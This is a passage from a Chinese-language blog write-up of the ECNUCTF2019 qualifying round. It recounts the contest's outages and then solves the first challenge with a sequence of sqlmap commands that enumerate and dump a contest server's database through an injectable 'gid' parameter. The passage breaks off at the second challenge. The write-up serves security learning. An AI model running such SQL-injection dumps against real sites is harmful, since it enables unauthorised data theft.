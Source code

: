 ```yaml
---
title: ECNUCTF2019 初赛 writeup
date: 2019-03-31 12:58:34
tags:
  - SQLi
  - 古典密码与编码
  - RSA
categories:
  - 比赛记录
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ECNUCTF2019/0.png
---
```


第二次参加 CTF，上次参加时还只知道古典密码。



## 吐槽

在周六 8 点起床不是我的风格，但这周六我还是做到了。9 点开始比赛，到晚上近 10 点才关掉比赛网页。午饭点了外卖，傍晚跑了个步回家吃晚饭，有效比赛时间大概在 10 小时左右。

不知道为什么，现在的 CTF 比赛居然有理论题了，都是网安知识不过范围比较广，许多题得靠搜索引擎帮忙……

做理论题做到一半网站就十分卡，感觉是被人 DDOS 了。到了近十点想交理论题的时候居然交不上了，看来主办方被 D 了个措手不及，好在修复还算及时，很快就交上了。

真正的 CTF 题在 10 点准时开放，然而所有题都放在了同一个服务器上，而这个服务器又一次遭受了恶意攻击，导致所有人都看不到题（只能欣赏题面精致的文案）。我猜运维肯定一脸懵逼，以致于在我们失望地等待了**十几分钟**后赛题才恢复正常。在此期间，积分榜却是开放的，上面全都是选手实名。。。十分无语，现在我应该不知道被社工多少次了。

等待网站恢复时发现**第三题题面的图片**很有趣，看起来像是帮助解题的关键线索：

![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ECNUCTF2019/1.jpg)

通过 Google 图片搜索，我在 [这里](http://www.wikiwand.com/zh/%E4%B8%AD%E6%96%87%E7%94%B5%E7%A0%81) 发现了相关介绍，不过后来事实证明这跟解题一点关系也没有。

下面是 writeup 正文，大部分结果都是由队友启发得到的。

## 1. 土肥原贤二

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ECNUCTF2019/2.png)

显然这里可以查询数据库，考虑 SQL 注入攻击。输入 1 查询后发现 payload 可以构造为 `gid=1`，然后 Kali 下运行 sqlmap 可以直接得到 flag。

```shell
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' --current-db
# current database: luozhen
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen --tables
# tables in database luozhen: flag, good
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag --columns
# columns in table flag: flag, id
$ sqlmap -u 'http://47.103.43.235:81/quest/web/a/index.php?gid=1' -D luozhen -T flag -C flag,id --dump
```

## 2. 吴佩孚
